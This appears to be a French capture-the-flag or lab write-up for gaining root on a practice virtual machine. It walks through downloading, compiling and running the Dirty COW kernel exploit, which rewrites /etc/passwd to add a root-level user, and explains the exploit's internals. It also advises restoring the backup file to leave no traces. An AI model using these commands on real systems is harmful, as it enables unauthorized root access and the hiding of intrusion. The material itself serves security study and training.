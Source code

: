 # WRITEUP2

## Pré-requis

Avant de commencer cet _exploit_, vérifiez que ces pré-requis sont
présents :
-   Une machine virtuelle : au choix VMware ou VirtualBox. Nous avons
    préféré VMware.
-   nmap : faites brew install nmap, l’installation prend une dizaine de
    minutes.
-   python 3.x.
-   Reprendre les étapes du `writeup1` jusqu'à la connexion en ssh avec : _laurie_.
-   scp -r -p user@serveur1:chemin/vers/dossier/source user@serveur2:chemin/vers/dossier/destination (envoyer le _script2.sh_ vers _laurie_)

## Le script

Les étapes suivantes sont reprises dans le script2.sh.

Nous téléchargons un script via _curl_ avec l'option _-O_ permettant de rediriger vers un fichier.
Ensuite nous compilons et lançons ce script avec un argument afin de choisir un nouveau mot de passe.

```
$> curl -O https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                Dload   Upload  Total   Spent    Left  Speed
100  4815  100  4815    0     0  23803      0 --:--:-- --:--:-- --:--:-- 31266
$> gcc -pthread dirty.c -o dirty -lcrypt
$> ./dirty "petdefeu"
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: petdefeu
Complete line:
firefart:trzgUrWEhLNPY:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'petdefeu'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'petdefeu'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

# Explications

Ce script utilise _l'exploit pokemon_ de la faille _dirtycow_ effective sur le kernel Unix durant 9 ans. Il remplace l'utilisateur `root` par un utilisateur custom.
L'user est invité à rentrer un nouveau mot de passe lors de l'éxecution du binaire ou à le passer en paramètre au moment de l'éxecution.
Le fichier `/etc/passwd` original est sauvegardé dans `/tmp/passswd.bak`; pour ne pas laisser de traces après le passage vous êtes invités à le remettre en place.

Si un fichier `/tmp/passswd.bak` existe déjà, le programme retourne un message d'erreur et s'arrête.
Une structure est initialisée (`username`, `user_id`, `info`, ...).
- Si il y a un second argument alors il est mis en mot de passe.
- Sinon, l'utilisateur est invité à taper son mot de passe.

Le mot de passe est crypté avec la fonction :
```char *crypt(const char *key, const char *salt);```
de la librairie `#include <crypt.h>`

Une chaine de caractères est alors créée contenant la structure complète.
Mmap est utilisé sur `/etc/passwd` avec le file descriptor (ce qui nous permettra ensuite d'écrire en mémoire ET sur le fichier).
La fonction `pid_t  fork(void);` est utilisé afin de créer un nouveau processus.

### Processus parent :

- Nous utilisons `pid_t  waitpid(pid_t pid, int *status, int options);` afin d'attendre le changement d'état du processus fils. `waitpid` suspend l'exécution du processus appelant jusqu'à ce que le fils spécifié par son pid ait changé d'état.
- `long ptrace(enum __ptrace_request requête, pid_t pid, void *addr, void *data);` est utilisé, cette fonction fournit au processus parent un moyen de contrôler l'éxécution d'un autre processus et d'éditer son image mémoire. Avec `PTRACE_POKETEXT` permettant d'écrire le password dans le fichier mappé.


### Processus enfant :

- `pthread_create` crée un nouveau thread qui exécute `madviseThread()` => manager le fonctionnement du système sur l'allocation; `MADV_DONTNEED` ne prévoit pas d'accès futur et donc le système ne vérifie pas les droits lors de l'écriture.
- Utilisation de `ptrace` avec `PTRACE_TRACEME`, utile pour le processus parent
- `kill` processus enfant
- `pthread_join` suspends le processus enfant

Le script script2.sh termine en se connectant en `firefart` donc le nouveau _super-user_

```bash
$> su firefart
Password:
``` 

On peut verifier que nous avons tous les droits en tapant la commande `id`:

```bash
$> id
uid=0(firefart) gid=0(root) groups=0(root)
```

__Bravo ! Vous êtes root !__
